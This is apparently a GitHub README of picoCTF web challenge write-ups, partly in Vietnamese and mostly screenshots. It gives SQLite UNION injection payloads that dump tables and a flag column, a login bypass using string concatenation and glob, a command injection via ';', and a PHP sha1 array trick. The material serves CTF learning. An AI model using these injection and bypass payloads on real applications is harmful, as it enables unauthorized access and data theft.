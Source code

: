 # Pico

# 3v@l

![Screenshot 2025-05-06 145459](https://github.com/user-attachments/assets/7341be37-c7dd-452b-9bd5-c16d7c1f9255)

![Screenshot 2025-05-06 145355](https://github.com/user-attachments/assets/c7c3347d-3de3-472a-8d19-29883e1888e6)


# Trickster

![Screenshot 2025-05-06 155332](https://github.com/user-attachments/assets/b1b381bd-837e-408d-be81-cd3efdeac7fe)

![Screenshot 2025-05-06 155403](https://github.com/user-attachments/assets/6f13e065-7c1f-4f66-ab63-f8b5fc0fa6da)

![Screenshot 2025-05-06 155256](https://github.com/user-attachments/assets/ac5c313c-f361-458a-8539-4f0531317528)

![Screenshot 2025-05-06 155535](https://github.com/user-attachments/assets/cf092a89-0610-4e25-b710-7f2a8bd808de)

![Screenshot 2025-05-06 155628](https://github.com/user-attachments/assets/7bc6fb7c-7383-4ff6-a2ee-710ed70c4044)

![Screenshot 2025-05-06 155652](https://github.com/user-attachments/assets/51c486c3-f0db-4f08-b895-2663c972f65a)

![Screenshot 2025-05-06 160930](https://github.com/user-attachments/assets/5728cb41-4208-4af7-8109-5a9f1a6f889b)


# No Sql Injection
![Screenshot 2025-05-06 164913](https://github.com/user-attachments/assets/4b93f124-856c-4681-9027-c002a5ca2cfd)
Base64


# SOAP
![image](https://github.com/user-attachments/assets/66b72268-993f-4abe-a155-b48ce205c653)

![image](https://github.com/user-attachments/assets/e85f7fff-fa60-434e-bf56-02d3efab8184)


# SQLI

![image](https://github.com/user-attachments/assets/85cd66b8-317f-450f-8e67-07690551feda)

Lấy các bảng bằng payload như sau
>a' union select 1,name,3 from sqlite_master where type='table'-- -

![image](https://github.com/user-attachments/assets/f0cc536a-7494-4c2b-99e5-4c918f7ac6ef)

Kiểm tra bảng more_table

>a' union select 1,sql,3 from sqlite_master where name='more_table'-- -

KIểm tra cột flag trong bảng more_table

>a' union select flag,2,3 from more_table-- -

![image](https://github.com/user-attachments/assets/90e55f04-5245-4a7c-a5bf-c5ca3ee1a075)

# MatchTheRegex

![image](https://github.com/user-attachments/assets/c7b34f81-2f2c-437a-b108-c16e5f416f6b)
.*? bắt tất cả các kí tự bất kỳ, số lượng ít nhất cả thể, nghĩa là chỉ lấy } đầu tiên bắt gặp

Nếu không có ? sau * thì nó sẽ khớp tới } cuối cùng trong chuỗi lớn

![image](https://github.com/user-attachments/assets/d3835e3f-9f22-4148-95cf-005ace686b62)
![Screenshot 2025-05-06 183102](https://github.com/user-attachments/assets/6961aae8-79a0-4916-b4e1-49a36da9fb96)

# Caas
![image](https://github.com/user-attachments/assets/746e5afd-8d24-4158-85f6-27ad42af2db4)

>os.system("cowsay " + user_input)

trong shell dấu ; cho phép thực thi nhiều lệnh liên tiếp

![image](https://github.com/user-attachments/assets/f7c67758-e2ff-49d4-a113-9260cd3756d4)
![image](https://github.com/user-attachments/assets/4db39461-ec20-4caa-babf-ed59fb379acf)



# Web Gauntlet 2
![Screenshot 2025-05-07 122359](https://github.com/user-attachments/assets/eaa96d1c-8151-43bd-b10b-7fd44dad9305)

![image](https://github.com/user-attachments/assets/7f39cc63-2344-4762-810b-f24cf18d9deb)

Username là admin nhưng admin đã bị chặn =))), Trong Sqlite || là toán tử để nối chuỗi
>username: adm'||'in
>password: ' glob '*
SELECT username, password FROM users WHERE username='adm'||'in' AND password='' glob '*'

Vậy tại sao có thể bypass được password, '' là 1 chuỗi rỗng glob sẽ so sánh với '\*' nếu khớp trả về true mà '*' khớp với bất kì chuỗi nào => trả về true

![Screenshot 2025-05-07 123050](https://github.com/user-attachments/assets/98af7f57-76ce-450e-a32f-f8957c526564)
![image](https://github.com/user-attachments/assets/596a372d-822f-4294-a861-af9f9301c260)

# It is my Birthday
Gửi 2 file pdf có hàm băm giống nhau để lấy flag
https://www.mscs.dal.ca/~selinger/md5collision/ tải về 2 file hello.exe và erase.exe và đổi lại .pdf

![Screenshot 2025-05-07 143003](https://github.com/user-attachments/assets/7f556d34-6530-493d-ba94-ff9da58cc125)
![Screenshot 2025-05-07 142953](https://github.com/user-attachments/assets/0eae98ab-c92a-4f4c-878c-dc089825568c)


# Apriti sesamo

![Screenshot 2025-05-07 153124](https://github.com/user-attachments/assets/60e8a331-071a-4cc1-92d7-8de47ce51add)
![image](https://github.com/user-attachments/assets/cf1072aa-14bb-42a0-b29d-f9c8c11aac9f)

 Gợi ý liên quan tới Emacs, trong trình soạn thảo emacs khi chỉnh sửa 1 file thì file gốc sẽ được lưu lại và thêm ~ và cuối. Ví dụ file mới là index.php thì file cũ sẽ là index.php~

 ![Screenshot 2025-05-07 153524](https://github.com/user-attachments/assets/e442c091-1605-4d30-b497-a5d2c8b6d22e)

 Sau khi thêm ~ vào cuối thì ta đã nhận được một đoạn mã php

 ![Screenshot 2025-05-07 153615](https://github.com/user-attachments/assets/12067edc-2b2c-4f7d-b87b-32eeef911e5b)

 Chú ý vào đoạn code có flag, khi thảo mãn điều kiện thì flag sẽ được đọc. Vậy làm sao để 2 hàm băm có thể giống nhau?

 Ta có thể làm cho 2 hàm băm nhận giá trị null khi đó null === null , thỏa mản

 Vì php không thể hash array nên ta sẽ cho đầu vào là 1 array

 ![Screenshot 2025-05-07 154152](https://github.com/user-attachments/assets/85b8b188-e392-46f9-aa9d-23a039bd0499)

 Ta thêm [] vào sau username và pwd thì nó sẽ thành 
 else if (sha1(array(123) === sha1(array(456)) {
 => if (null === null)






























